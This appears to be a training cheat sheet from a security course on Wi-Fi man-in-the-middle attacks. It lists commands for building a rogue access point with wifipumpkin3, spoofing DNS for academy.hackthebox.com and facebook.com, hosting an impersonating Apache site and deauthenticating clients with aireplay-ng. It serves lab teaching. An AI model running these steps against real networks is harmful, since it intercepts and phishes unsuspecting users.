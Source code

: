 # MITM Attacks

## DNS Spoofing

| **Command** | **Description** |
| --- | --- |
| sudo wifipumpkin3 | Launch wifipumpkin3. |
| set interface wlan1 | Set the wireless interface for the AP. |
| set ssid HTB-Corp | Set the SSID for the AP. |
| set proxy noproxy | Disable the proxy. |
| ignore pydns\_server | Exclude the DNS server. |
| ap | View current settings configured for our rogue AP. |
| show | Display available modules in wifipumpkin3. |
| use spoof.dns\_spoof | Select the `dns_spoof` module. |
| set domains academy.hackthebox.com, <facebook.com> | Set the domain(s) to be spoofed. |
| set redirectTo 10.0.0.1 | Set the IP address that DNS requests will be redirected to. |
| start | Start the DNS spoof attack |
| back | Navigate out of the dns\_spoof configuration and back to the wifipumpkin3 console |
| start | Start the rogue AP. |
| start | Start the rogue AP. |
| sudo a2ensite intranet1.conf | Enable the first virtual host. |
| sudo a2ensite intranet2.conf | Enable the second virtual host. |
| sudo systemctl restart apache2 | Restart Apache web server. |
| sudo aireplay-ng --deauth 5 -a 9C:9A:03:39:BD:7A wlan0mon | If necessary, perform deauthentication attack to force victims to connect to the rogue AP. |

#### Virtual Host Configuration

**/etc/apache2/sites-available/intranet1.conf**

Code: configuration

```configuration
<VirtualHost *:80>
    ServerAdmin admin@hackthebox.com
    ServerName academy.hackthebox.com
    ServerAlias www.academy.hackthebox.com
    DocumentRoot /var/www/html
    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```
